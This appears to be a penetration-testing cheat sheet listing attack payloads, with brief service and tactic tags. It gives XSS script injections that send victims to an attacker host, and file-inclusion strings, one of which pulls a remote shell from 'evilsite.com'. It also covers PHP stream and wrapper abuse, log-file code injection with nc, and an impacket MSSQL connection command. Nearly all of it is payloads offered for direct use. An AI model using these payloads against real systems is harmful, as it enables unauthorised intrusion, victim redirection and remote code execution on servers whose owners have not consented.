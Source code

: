 ## xss redirect to own webserver
- `'">><script>document.location="http://attacker-ip:81";</script>`
- `'">><script>window.location="http://attacker-ip:81";</script>`

---

# local file inclusion / remote file inclusion
- service: http
- service: php
- tactics: inital_access

## including remote code
- `?file=[http|https|ftp]://evilsite.com/shell.txt`

## using php stream php://input 
- `?file=php://input`  

## using zip wrapper zip://input 
- `?file=zip://path/file.zip%23rce.php`

## specify your payload in the post parameters
### using php stream php://filter
- `?file=php://filter/convert.base64-encode/resource=index.php`

### using data uri
- `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

### using xss
- `?file=http://127.0.0.1/path/xss.php?xss=phpcode`

## inject php code in logfile with nc and retrieve it afterwards
> search for nc

--- 

# mssqlclient.py
- service: sql
- tactics: lateral_movement
- suites: impacket

## connect to windows mssql Server
- `mssqlclient.py -windows-auth username@target-ip`
